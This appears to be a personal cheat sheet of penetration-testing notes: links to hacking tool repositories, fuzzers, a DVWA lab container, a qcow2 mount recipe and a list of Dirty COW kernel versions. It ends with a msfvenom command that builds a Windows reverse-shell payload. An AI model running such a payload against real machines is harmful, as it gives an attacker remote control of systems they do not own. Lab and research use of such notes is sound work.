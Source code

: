 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

# RADARE2 - Amazing intro to binary analysis
https://github.com/ITAYC0HEN/A-journey-into-Radare2.git

#CRAWL
git clone https://github.com/killswitch-GUI/SimplyEmail.git
theharvester

# Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt


# DOCKER
## DVWA
https://github.com/ethicalhack3r/DVWA.git
docker run --rm -it -p 8000:80 vulnerables/web-dvwa
## Apache
httpd 
/usr/local/apache2/htdocs/index.html


# FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz


#Dirty COW Kernels
    4.8.0-26.28 for Ubuntu 16.10
    4.4.0-45.66 for Ubuntu 16.04 LTS
    3.13.0-100.147 for Ubuntu 14.04 LTS
    3.2.0-113.155 for Ubuntu 12.04 LTS
    3.16.36-1+deb8u2 for Debian 8
    3.2.82-1 for Debian 7
    4.7.8-1 for Debian unstable


## Different address spaces in memory are organzed by memory maps; to list:
cat /proc/self/maps

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
